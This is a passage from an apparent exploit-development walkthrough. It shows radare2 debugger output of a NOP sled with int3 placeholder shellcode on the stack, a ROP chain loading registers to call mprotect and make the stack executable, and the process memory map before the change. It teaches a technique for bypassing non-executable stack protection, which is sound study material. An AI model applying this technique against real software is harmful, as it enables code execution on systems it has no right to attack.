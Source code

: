 ```

[0x55555555468a]> pd 20 @ 0x7fffffffdf20
            0x7fffffffdf20      90             nop
            0x7fffffffdf21      90             nop
            0x7fffffffdf22      90             nop
            0x7fffffffdf23      90             nop
            0x7fffffffdf24      90             nop
            0x7fffffffdf25      90             nop
            0x7fffffffdf26      90             nop
            0x7fffffffdf27      90             nop
            0x7fffffffdf28      90             nop
            0x7fffffffdf29      90             nop
            0x7fffffffdf2a      cc             int3
            0x7fffffffdf2b      cc             int3
            0x7fffffffdf2c      cc             int3
            0x7fffffffdf2d      cc             int3
            0x7fffffffdf2e      cc             int3
            0x7fffffffdf2f      cc             int3
            0x7fffffffdf30      cc             int3
            0x7fffffffdf31      cc             int3
            0x7fffffffdf32      4831c0         xor rax, rax
```
As we see, after our rop gadgets, params are loaded, the mprotect() called:
```
[0x7ffff7afd7e0]> dr rsi
0x00021000
[0x7ffff7afd7e0]> dr rdx
0x00000007
[0x7ffff7afd7e0]> dr rdi
0x7ffffffde000
[0x7ffff7afd7e0]> pd 10
            ;-- rip:
            0x7ffff7afd7e0      b80a000000     mov eax, 0xa
            0x7ffff7afd7e5      0f05           syscall
            0x7ffff7afd7e7      483d01f0ffff   cmp rax, -0xfff
        ,=< 0x7ffff7afd7ed      7301           jae 0x7ffff7afd7f0
        |   0x7ffff7afd7ef      c3             ret
        `-> 0x7ffff7afd7f0      488b0d71f62c.  mov rcx, qword [0x7ffff7dcce68] ; [0x7ffff7dcce68:8]=-128
            0x7ffff7afd7f7      f7d8           neg eax
            0x7ffff7afd7f9      648901         mov dword fs:[rcx], eax
            0x7ffff7afd7fc      4883c8ff       or rax, 0xffffffffffffffff
            0x7ffff7afd800      c3             ret
[0x7ffff7afd7e0]> 
```
The stack is not executable before that, but after that YES
```
BEFORE
[0x555555554580]> dm
0x00007ffff7dcf000 # 0x00007ffff7dd3000 - usr    16K s -rw- unk0 unk0
0x00007ffff7dd3000 # 0x00007ffff7dfc000 - usr   164K s -r-x /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._r_x
0x00007ffff7fdf000 # 0x00007ffff7fe1000 - usr     8K s -rw- unk1 unk1
0x00007ffff7ff8000 # 0x00007ffff7ffb000 - usr    12K s -r-- [vvar] [vvar] ; map.vvar_._r
0x00007ffff7ffb000 # 0x00007ffff7ffc000 - usr     4K s -r-x [vdso] [vdso] ; map.vdso_._r_x
0x00007ffff7ffc000 # 0x00007ffff7ffd000 - usr     4K s -r-- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so ; map.lib_x86_64_linux_gnu_ld_2.27.so._rw
0x00007ffff7ffd000 # 0x00007ffff7ffe000 - usr     4K s -rw- /lib/x86_64-linux-gnu/ld-2.27.so /lib/x86_64-linux-gnu/ld-2.27.so
0x00007ffff7ffe000 # 0x00007ffff7fff000 - usr     4K s -rw- unk2 unk2 ; map.unk0._rw
0x00007ffffffde000 # 0x00007ffffffff000 - usr   132K s -rw- [stack] [stack] ; map.stack_._rw
0xffffffffff600000 # 0xffffffffff601000 - usr     4K s ---x [vsyscall] [vsyscall] ; map.vsyscall_.___x

```